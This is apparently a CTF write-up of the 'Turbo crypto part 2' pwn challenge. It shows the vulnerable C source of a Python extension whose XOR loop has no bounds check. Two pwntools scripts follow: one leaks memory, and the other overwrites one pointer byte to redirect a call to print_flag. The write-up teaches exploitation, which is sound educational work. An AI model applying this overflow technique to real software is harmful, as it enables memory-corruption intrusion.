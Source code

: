 # Turbo crypto part 2

Category: Pwn

Points: 900

Solves: 1

> Using the key you extracted, we found a [link](https://drive.google.com/uc?id=19mmImjpreALZSs0D88BtLY65cFBkHsMC&export=download) to the source code for `turbofastcrypto`. There happens to be a secret `flag` file on the server, and you need to extract it.

The authors generously decided to place a first blood bounty of 1 month of discord nitro on this challenge :heart:.

The source code contains a `turbofastcrypto.c` (reproduced below), a shared object (which I had no experience pwning) and a bunch of other files which were mostly setup files.

```c
#define PY_SSIZE_T_CLEAN
#include <Python.h>

char IV[64] = "IRS{secrets_are_revealed!!}";

#pragma GCC optimize ("O0")
__attribute__ ((used)) static void print_flag() { system("cat flag"); }

static PyObject *encrypt(PyObject *self, PyObject *args) {
    const char *cmd;
    Py_ssize_t len;
    if (!PyArg_ParseTuple(args, "s#", &cmd, &len)) return NULL;
    for (int i = 0; i < len; i++) IV[i] ^= cmd[i];
    return PyBytes_FromStringAndSize(IV, len);
}

static PyMethodDef mtds[] = {
    {"encrypt", encrypt, METH_VARARGS, "Encrypt a string" },
    { NULL, NULL, 0, NULL }
};

static struct PyModuleDef moddef = {
    PyModuleDef_HEAD_INIT,
    "turbofastcrypto", 
    NULL,
    -1,
    mtds
};

PyMODINIT_FUNC PyInit_turbofastcrypto() { return PyModule_Create(&moddef);}
```

This code looks really intimidating (probably the hard part of this challenge). It defines a python C extension, which is built into a shared object, which is then loaded into the CPython runtime, so python code can call these functions.

At first, I thought the bug was some kind of improper use of the cpython functions `PyArg_ParseTuple` and `PyBytes_FromStringAndSize` but according to the documentation they seem to be used correctly.

The `for` loop was much more interesting though. Each character of the user's input is XORed with the IV array and stored back to the IV array. However, there is no bounds checking here, so if the user's input is longer than the size of IV (64 bytes), we could leak, and potentially write memory!

I wrote a small script to leak memory:

```python
from pwn import *
p = remote("challs.sieberrsec.tech", 3477)

# anything ^ 0 = anything
arr = [0 for _ in range(200)]
p.sendline(bytes(arr))
p.recvuntil("Encrypted:")
# probably should use safeeval but whatever
l = eval(p.recvline())
print(hexdump(l))
```

As expected, we see the flag, then a bunch of memory addresses.

![image-20211227072236432](.\images\dump.png)

If you run this a few times, you'll find that the leak addresses are different every time, except for the first byte (the LSB, things are little endian here) ~~(and also the second digit of the second byte but that's not important)~~. This is probably due to PIE or some other kind of ASLR for shared objects, which randomizes the addresses of functions. Anyway, I ran `objdump -d <the shared object>` to find out what these functions were:

![image-20211227072656684](.\images\objdump.png)

Hmmm, the `encrypt` function ends in `0xc0`, which is exactly the same as the leaked address we saw earlier! And the `print_flag` function's address only differs by 1 byte! If we're able to modify the `0xc0` to `0xa0` we can (hopefully) get the `print_flag` function to be called.

We can do this by XORing the 72nd byte (the location of the first `0xc0`) with 96, since `0xc0 ^ 96 = 160 = 0xa0`. Fortunately, 96 is within the ASCII range, so it shouldn't have any issues.

I made slight modifications to the script to set the 72nd byte:

```python
from pwn import *
p = remote("challs.sieberrsec.tech", 3477)

# anything ^ 0 = anything
arr = [0 for _ in range(200)]
arr[72] = 96
p.sendline(bytes(arr))
p.interactive()
```

When I ran the script, nothing happened and I was really worried that I had messed up somewhere. However, when I pressed enter, the script sent the flag. I realized that instead of overwriting the return pointer, I had overwritten some kind of function table that cpython uses to jump to the C extensions. When the function is executed again, the `print_flag` function is called instead of the `encrypt` function. However, the program crashes afterwards with the error:

```
Traceback (most recent call last):
  File "./tfc.py", line 4, in <module>
    ciphertext = turbofastcrypto.encrypt(plaintext)
SystemError: <built-in function encrypt> returned NULL without setting an error
```

which is completely expected and ok since I've already gotten the flag.

## Comments

I actually got really confused when writing this writeup cos I saw `0x0c` as `0xc0` and thought the writeup was 64. During the CTF I used `.index` to find the writeup so it was fine. I also got the chance to use the really useful pwntools `hexdump` function, which was cool.

Thanks again to the authors for this great challenge and the nitro!